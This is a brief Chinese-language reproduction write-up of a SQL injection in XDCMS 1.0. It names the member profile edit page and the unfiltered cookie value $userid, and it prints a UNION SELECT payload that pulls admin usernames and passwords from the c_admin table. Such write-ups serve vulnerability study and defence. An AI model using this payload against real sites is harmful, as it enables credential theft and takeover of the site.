 ```yaml
---
title: XDCMS 1.0 sql注入漏洞（二）
id: zhfly3273
---
```


# XDCMS 1.0 sql注入漏洞（二）

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![image](../img/af4c231f10b1fb1d19eeabef1d1f9c55.png)

漏洞文件位于`system/modules/member/index.php`，`line:178`

![image](../img/b0f6e1dc6ed2f76caa0dfdbb675ec073.png)

$userid直接从Cookie中取出，并无任何过滤，导致注入

![image](../img/d04e2fdd482f11cc6e4157ce348418ac.png)

```
select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin 
```